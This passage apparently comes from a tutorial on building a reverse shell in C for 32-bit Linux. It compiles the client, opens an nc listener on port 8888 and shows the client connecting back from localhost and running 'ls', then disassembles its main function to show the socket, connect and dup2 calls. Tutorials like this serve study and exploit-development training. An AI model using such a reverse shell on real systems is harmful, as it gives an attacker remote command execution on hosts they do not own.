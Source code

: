     gcc -O0 -m32 client.c -o client

To test it we open a nc listener on port 8888:

    nc -nlvp 8888

And run:

```
$ ./client 

nc -nlvp 8888
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47896
ls
<directory listing here>
```

## Disassembling the ELF

Now lets check the result:

```
$ objdump -d ./client -M intel
...
00000690 <main>:
 690:	8d 4c 24 04          	lea    ecx,[esp+0x4]
 694:	83 e4 f0             	and    esp,0xfffffff0
 697:	ff 71 fc             	push   DWORD PTR [ecx-0x4]
 69a:	55                   	push   ebp
 69b:	89 e5                	mov    ebp,esp
 69d:	53                   	push   ebx
 69e:	51                   	push   ecx
 69f:	83 ec 20             	sub    esp,0x20
 6a2:	e8 b9 fe ff ff       	call   560 <\__x86.get_pc_thunk.bx>
 6a7:	81 c3 59 19 00 00    	add    ebx,0x1959
 6ad:	83 ec 0c             	sub    esp,0xc
 6b0:	8d 83 e0 e7 ff ff    	lea    eax,[ebx-0x1820]
 6b6:	50                   	push   eax
 6b7:	e8 34 fe ff ff       	call   4f0 <inet_addr@plt>
 6bc:	83 c4 10             	add    esp,0x10
 6bf:	89 45 e8             	mov    DWORD PTR [ebp-0x18],eax
 6c2:	66 c7 45 e4 02 00    	mov    WORD PTR [ebp-0x1c],0x2
 6c8:	83 ec 0c             	sub    esp,0xc
 6cb:	68 b8 22 00 00       	push   0x22b8
 6d0:	e8 db fd ff ff       	call   4b0 <htons@plt>
 6d5:	83 c4 10             	add    esp,0x10
 6d8:	66 89 45 e6          	mov    WORD PTR [ebp-0x1a],ax
 6dc:	83 ec 04             	sub    esp,0x4
 6df:	6a 00                	push   0x0
 6e1:	6a 01                	push   0x1
 6e3:	6a 02                	push   0x2
 6e5:	e8 f6 fd ff ff       	call   4e0 <socket@plt>
 6ea:	83 c4 10             	add    esp,0x10
 6ed:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 6f0:	83 ec 04             	sub    esp,0x4
 6f3:	6a 10                	push   0x10
 6f5:	8d 45 e4             	lea    eax,[ebp-0x1c]
 6f8:	50                   	push   eax
 6f9:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 6fc:	e8 ff fd ff ff       	call   500 <connect@plt>
 701:	83 c4 10             	add    esp,0x10
 704:	83 ec 08             	sub    esp,0x8
 707:	6a 00                	push   0x0
 709:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 70c:	e8 8f fd ff ff       	call   4a0 <dup2@plt>
```